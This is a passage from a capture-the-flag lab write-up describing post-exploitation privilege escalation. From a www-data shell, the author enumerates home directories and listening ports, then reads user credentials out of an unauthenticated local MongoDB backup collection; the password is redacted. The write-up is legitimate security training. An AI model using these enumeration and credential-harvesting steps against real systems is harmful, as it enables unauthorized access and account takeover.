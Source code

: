 ### Priv Esc 1

I got a shell as www-data, I can use this to grab the user.txt flag but I need to now find a way to become the webdeveloper user.

```highlight
$ whoami
www-data
$ cd /home/
$ ls
webdeveloper
$ cd webdeveloper
$ ls -lah
total 36K
drwxr-xr-x 4 webdeveloper webdeveloper 4.0K Oct  8 10:59 .
drwxr-xr-x 3 root         root         4.0K May 25  2021 ..
lrwxrwxrwx 1 webdeveloper webdeveloper    9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 webdeveloper webdeveloper  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webdeveloper webdeveloper 3.7K Feb 25  2020 .bashrc
drwx------ 2 webdeveloper webdeveloper 4.0K May 25  2021 .cache
drwxrwxr-x 3 webdeveloper webdeveloper 4.0K May 25  2021 .local
-rw------- 1 webdeveloper webdeveloper   51 Oct  8 10:59 .mysql_history
-rw-r--r-- 1 webdeveloper webdeveloper  807 Feb 25  2020 .profile
-rw-r--r-- 1 webdeveloper webdeveloper    0 Oct  7 17:53 .sudo_as_admin_successful
-rw-r--r-- 1 webdeveloper webdeveloper   33 May 25  2021 user.txt
```

I enumerate the box and take a look at the listening ports and find MongoDB is listening on 27017.

```highlight
$ ss -tulp
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process
udp   UNCONN 0      0           127.0.0.53%lo:domain       0.0.0.0:*           
udp   UNCONN 0      0      10.10.149.149%eth0:bootpc       0.0.0.0:*           
tcp   LISTEN 0      511             127.0.0.1:9000         0.0.0.0:*           
tcp   LISTEN 0      4096            127.0.0.1:27017        0.0.0.0:*           
tcp   LISTEN 0      151             127.0.0.1:mysql        0.0.0.0:*           
tcp   LISTEN 0      4096        127.0.0.53%lo:domain       0.0.0.0:*           
tcp   LISTEN 0      128               0.0.0.0:ssh          0.0.0.0:*           
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*           
tcp   LISTEN 0      511                     *:http               *:*           
tcp   LISTEN 0      128                  [::]:ssh             [::]:*           
$ 
```

Connecting to mongo I found the webdeveloper credentials, Ive redacted them in the output below.

```highlight
$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("0ad03a25-0c2d-4c46-8adf-bb97086a2f15") }
MongoDB server version: 4.4.6
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
use backup
switched to db backup
show collections
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "{{REDACTED}}" }
```